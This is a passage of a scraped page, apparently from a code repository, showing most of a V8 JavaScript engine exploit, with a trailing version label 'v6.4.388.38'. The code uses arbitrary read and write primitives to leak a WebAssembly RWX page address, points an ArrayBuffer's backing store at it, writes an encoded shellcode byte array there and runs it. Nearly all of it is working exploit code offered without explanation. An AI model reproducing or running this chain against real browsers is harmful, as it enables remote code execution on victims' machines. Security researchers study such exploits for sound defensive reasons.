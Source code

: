 ```html
    console.log('from:',hex(read_addr),'read:',hex(f2i(leaked_data)));
    return f2i(leaked_data);
}

function arb_write(write_addr, value) {
    console.log('writeaddr:',hex(write_addr));
    fake_arr_to_obj[2] = i2f(write_addr-0x10n+1n);
    fake_obj[0] = i2f(value);
} 


var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var f = wasmInstance.exports.main;
var wasm_instance_addr = addressOf(wasmInstance);
console.log("[+]leak wasm instance addr: " + hex(wasm_instance_addr));
var rwx_page_addr = arb_read(wasm_instance_addr + 0xe8n);
console.log("[+]leak rwx_page_addr: " + hex(rwx_page_addr));

const shellcode = [72, 49, 201, 72, 129, 233, 247, 255, 255, 255, 72, 141, 5, 239, 255, 255, 255, 72, 187, 124, 199, 145, 218, 201, 186, 175, 93, 72, 49, 88, 39, 72, 45, 248, 255, 255, 255, 226, 244, 22, 252, 201, 67, 129, 1, 128, 63, 21, 169, 190, 169, 161, 186, 252, 21, 245, 32, 249, 247, 170, 186, 175, 21, 245, 33, 195, 50, 211, 186, 175, 93, 25, 191, 225, 181, 187, 206, 143, 25, 53, 148, 193, 150, 136, 227, 146, 103, 76, 233, 161, 225, 177, 217, 206, 49, 31, 199, 199, 141, 129, 51, 73, 82, 121, 199, 145, 218, 201, 186, 175, 93];
var buf = new ArrayBuffer(0x1a0);
var dataview = new DataView(buf);
var buf_addr = addressOf(buf);
back_store_addr = buf_addr+0x20n;
arb_write(back_store_addr,rwx_page_addr);

for(let i=0;i<shellcode.length;i++)
{
    dataview.setUint32(i,shellcode[i],true);
}

f();

console.log("[+]back_store_addr: "+hex(back_store_addr));
//%SystemBreak();
</script>

```



#### v6.4.388.38
